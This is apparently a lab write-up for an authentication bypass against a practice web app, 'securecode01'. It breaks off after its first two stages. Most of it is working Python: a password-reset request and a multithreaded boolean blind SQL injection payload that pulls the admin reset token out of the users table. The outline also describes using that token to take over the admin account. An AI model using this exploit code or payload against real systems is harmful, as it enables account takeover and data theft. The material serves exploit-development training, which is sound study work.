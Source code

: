 ***The Authentication Bypass flow:***
- Generate a token for the admin user through `resetPassword`
- Exploit the SQL Injection vulnerability in `viewItem`  to retrieve the generated token from the users table.
- Use the exfiltrated token to change the admin password.
- Login as admin with the new password.
# Auth Bypass PoC 
1 - Generate a token for the user `admin` by sending a `POST` request to `/login/resetPassword.php`.

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import string 
import sys 

BASE_URL = "http://securecode01"
LOGIN_PAGE = "/login/login.php"
RESET_PASSWORD = "/login/resetPassword.php"
DO_CHANGE_PASSWORD = "/login/doChangePassword.php"
VIEW_ITEM_PAGE = "/item/viewItem.php"

SESSION = requests.Session()

def request_reset(username):
    data = {"username": username}
    response = SESSION.post(BASE_URL + RESET_PASSWORD, data=data)
    assert "Success" in response.text, "Reset request did not complete successfully."
```

2 - prepare a payload to extract the admin reset token from `item/viewItem.php`.

```python
def sqli_exfil_character(session, payload):
    data = {"id": payload}
    response = session.get(BASE_URL + VIEW_ITEM_PAGE, params=data, allow_redirects=False)
    return response.status_code == 404

# Multi-threaded SQL Injection, speedy exfiltration thanks to https://github.com/rizemon/exploit-writing-for-oswe

TOKEN_LENGTH = 16
MAX_WORKERS = 100 
def exfiltrate_token(session):
    def boolean_sqli(arguments):
        idx, ascii_val, session = arguments
        payload = f"-1 OR BINARY CHAR({ord(ascii_val)}) = (SELECT SUBSTRING(token, {idx + 1}, 1) FROM user where id = 1)#"
        return ascii_val, sqli_exfil_character(session, payload)

    result = ""
    # Go through each character position
    for idx in range(TOKEN_LENGTH):
        # Use MAX_WORKERS threads to test possible ASCII values in parallel
        with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
            CHARSET = string.ascii_letters + string.digits
            responses = executor.map(boolean_sqli, [(idx, ascii_val, session) for ascii_val in CHARSET])

        # Go through each response and determine which ASCII value is correct
        for ascii_val, truth in responses:
            if truth:
                result += ascii_val
                break
```